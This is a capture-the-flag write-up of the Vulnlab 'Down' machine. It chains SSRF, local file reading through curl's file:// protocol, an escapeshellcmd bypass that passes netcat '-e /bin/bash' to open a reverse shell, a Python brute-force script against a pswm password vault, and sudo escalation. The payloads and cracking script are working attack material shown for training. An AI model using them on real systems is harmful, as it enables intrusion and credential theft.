



Down Write-up

This box from Vulnlab begins with leveraging a command injection vulnerability in the website, specifically through the misuse of the curl command. By abusing this, we gain access to the PHP source code of the application. Analyzing the code, we discover that it uses the escapeshellcmd function to execute the nc (netcat) command, which we exploit to gain a reverse shell on the target.
Once inside, we enumerate the user's home directory and discover hidden files and directories. Among these, one file stands out, revealing an encrypted key for a password manager. After decrypting the key, we recover the user's credentials, allowing us to SSH into the target as that user.
Upon gaining access as the user, we find that they have sudo privileges to execute all commands, which we abuse to escalate privileges to root. With this, we successfully compromise the machine and retrieve the root flag.
Enumeration
Nmap Scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-22 19:47 PST
Stats: 0:04:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 19:51 (0:00:06 remaining)
Stats: 0:04:45 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 19:51 (0:00:00 remaining)
Nmap scan report for 10.10.100.238
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_ 256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 291.81 seconds
Only two ports are shown which are port 22 (ssh) and port 80 (http). Looking into port 80 the website shows us to see if the website we specify is down or up
Lets input a url and see if it can return itself as down or up
http://127.0.0.1
The output of the HTML reveals the website’s own content, which provides an opportunity to test for vulnerabilities like SSRF (Server-Side Request Forgery) and Command Injection. In this case, I will demonstrate both, starting with SSRF.
SSRF Overview
SSRF allows an attacker to access restricted content or services that are not directly accessible to them. It is also commonly used to enumerate ports and services hosted internally on the target's network. To check if the application is vulnerable to SSRF, we can test if the server makes a callback request to our machine.
Testing for SSRF
To verify the SSRF vulnerability, we can set up a listener using netcat to capture any outgoing requests from the server. If the server connects to our listener, it confirms the vulnerability. Let's proceed to test for this behavior.
After sending the request, we receive a callback to our listener, confirming two key points:
- The application is vulnerable to SSRF.
- The
User-Agentreveals thatcurlis being used to process the request, suggesting the server relies on acurlcommand to handle the provided URL input.
Based on this observation, my assumption is that the URL input is processed with a command similar to:
curl $URL
This indicates the potential for command injection. To verify, I tested various inputs to check if additional commands could be executed. By appending -i or --help to the input, I observed different outputs, which confirmed that command injection is possible but restricted to options or arguments recognized by curl.
After spending considerable time testing various approaches, it became evident that standard command injection methods were leading to dead ends. However, I discovered an alternative approach leveraging curl's ability to handle multiple protocols. One powerful feature of curl is its ability to interact with different protocols beyond HTTP, such as file://, which can access the local filesystem.
file:// protocol combined with the ability to curl localhost, we can exploit this feature to read sensitive files from the server. For instance, the /etc/passwd file can be accessed directly by crafting a URL as follows:
http://127.0.0.1+file:///etc/passwd
This approach works because the application is blindly passing user input to curl without sanitization, effectively allowing us to exploit a Local File Inclusion (LFI) vulnerability using the file:// protocol.
As demonstrated, we can use the curl command to access files on the local filesystem. By inspecting /etc/passwd, we identify a user named aleks, which is a useful detail to note. However, attempts to retrieve Aleks's SSH keys were unsuccessful.
At this point, it’s worth highlighting an observation: the website uses an index.php file instead of an index.php. Why is this significant? PHP files contain backend code, which is not visible to public users inspecting the webpage via browser tools like "Inspect Element." Unlike HTML files, PHP files execute server-side and may contain sensitive logic, such as database connections or authentication mechanisms, that are hidden from the frontend.
Knowing this, we can hypothesize that accessing the source code of index.php could reveal critical backend details. Typically, websites are hosted in the /var/www/html directory, so let’s attempt to read the contents of the index.php file:
http://127.0.0.1+file:///var/www/html/index.php
Upon reviewing the index.php file, we find PHP code that stands out. This specific snippet caught my attention:
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
$ip = trim($_POST['ip']);
$valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
$port = trim($_POST['port']);
$port_int = intval($port);
$valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
if ( $valid_ip && $valid_port ) {
$rc = 255; $output = '';
$ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
exec($ec . " 2>&1", $output, $rc);
Breaking It Down
- Request Parameter: The script checks if the GET parameter
expertmodeis set totcp(index.php?expertmode=tcp). - IP Address Validation:
$ip: The provided IP address is fetched from the POST parameterip.$valid_ip: The IP address is validated usingFILTER_VALIDATE_IP.- Port Validation:
$port: The provided port is fetched from the POST parameterport.$port_int: The port value is converted into an integer.$valid_port: The port is validated usingFILTER_VALIDATE_INT.- Command Execution:
$ec: Theescapeshellcmdfunction is used to sanitize and prepare thenccommand (/usr/bin/nc -vz $ip $port).exec(): Executes thenccommand, captures the output and return code ($rc).
Key Observation
While the escapeshellcmd function is designed to escape special characters and mitigate command injection vulnerabilities, it is not foolproof. According to the PHP documentation, attackers can still inject malicious input depending on the command being executed. This is particularly true if the command (nc in this case) accepts additional flags or arguments that can be abused.
This discovery hints at a potential attack vector. Next, we will investigate how to manipulate the command execution while bypassing the escapeshellcmd sanitization.
Given the context, we know that the application executes the nc (Netcat) command on the server-side. Netcat provides a flag, -e, that allows the execution of a program upon connection. This can be abused to spawn a shell by executing /bin/bash or /bin/sh.
FootHold
Navigate to the vulnerable webpage and append the following parameters to the URL:
http://10.10.103.199/index.php?expertmode=tcp
Now we can apply our logic. set up necat and lets catch this shell.
ip=10.8.5.55&port=4444+-e+/bin/bash
Lets get a stable shell.
python3 -c 'import pty; pty.spawn("/bin/bash
export TERM=xterm-256color
Checking the /home/aleks shows us nothing however if we run ls -al we can see we are able to view and access one directory in particular which is interesting.
drwxr-xr-x 5 aleks aleks 4096 Sep 15 09:15 .
drwxr-xr-x 3 root root 4096 Sep 13 14:43 ..
lrwxrwxrwx 1 aleks aleks 9 Sep 6 14:43 .bash_history -> /dev/null
-rw-r--r-- 1 aleks aleks 220 Jan 6 2022 .bash_logout
-rw-r--r-- 1 aleks aleks 3771 Jan 6 2022 .bashrc
drwx------ 2 aleks aleks 4096 Sep 6 15:03 .cache
drwxrwxr-x 3 aleks aleks 4096 Sep 6 14:45 .local
-rw-r--r-- 1 aleks aleks 807 Jan 6 2022 .profile
drwx------ 2 aleks aleks 4096 Sep 6 14:42 .ssh
-rw-r--r-- 1 aleks aleks 0 Sep 15 09:15 .sudo_as_admin_successful
The .local directory is interesting so checking the directories we manage to find a file called pswm.
www-data@down:/home/aleks/.local/share/pswm$ ls -al
ls -al
total 12
drwxrwxr-x 2 aleks aleks 4096 Sep 13 15:36 .
drwxrwxr-x 3 aleks aleks 4096 Sep 13 15:36 ..
-rw-rw-r-- 1 aleks aleks 151 Sep 13 15:36 pswm
User as Aleks
We are able to view the file lets see what it contains.
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
Upon examining the encrypted file, it appears to be Base64-encoded. However, decoding it with Base64 returned gibberish. After further research, I discovered that the file is associated with pswm, a password manager tool. Reviewing the tool's source code on GitHub reveals that it uses the cryptocode library for encryption, which leverages AES encryption.
We have two main options to decrypt the file:
- Use an Existing Decoder: A GitHub repository, pswm-decoder is specifically designed to decrypt pswm-encrypted files. This is the quickest and easiest method if you prefer to use a pre-made tool.
- Create Your Own Script: Writing a custom script to decrypt the file is also a viable option and an excellent learning opportunity. The primary steps involve:
- Brute-forcing the master password using a wordlist (e.g.,
rockyou.txt). - Using the
cryptocode.decrypt()function to attempt decryption for each password.
For this write-up, I’ll create my own script to demonstrate how it works. However, feel free to use the pswm-decorder if you prefer a ready-to-use solution.
#!/usr/bin/python3
import cryptocode
# File paths
wordlist = "/home/pixelrazer/SecLists/Passwords/Leaked-Databases/rockyou.txt"
encrypted_key = "/home/pixelrazer/vulnhub/ecnrypted.txt"
# Decrypt function
def decrypt(wordlists):
with open(encrypted_key, 'r') as file:
encrypted_text = file.read() # Read the encrypted content
with open(wordlists, 'r', encoding="latin1") as word:
for line in word:
password = line.strip() # Clean password from newline/whitespace
try:
decrypted_text = cryptocode.decrypt(encrypted_text, password)
if decrypted_text: # Check if decryption was successful
print(f"Decrypted text: {decrypted_text}")
print(f"Password found: {password}")
return # Stop searching once the password is found
except Exception as e:
print(f"Error with password {password}: {e}")
# Run the decrypt function
decrypt(wordlist)
This is the script I made very similar to the one from github. Copy the file of pswm onto your machine and paste into a file. Run the script of either mine or the github which will decrypt the password from the rockyou.txt wordlist. We got aleks password which we can use to ssh.
Privilege Escalation
The privilege escalation process is straightforward, as the user has unrestricted sudo access, allowing them to execute any command with elevated privileges.
When we get that we can sudo into root user.
sudo su
Conclusion
This box highlights the importance of secure coding practices, such as avoiding unsafe command execution functions, validating inputs rigorously, and restricting unnecessary privileges. It demonstrates real-world vulnerabilities that attackers exploit and reinforces the critical need for regular security audits to identify and mitigate these issues. Overall, this challenge served as a great exercise in enumeration, exploitation, and privilege escalation, reinforcing foundational pentesting skills while emphasizing the importance of attention to detail and creative thinking.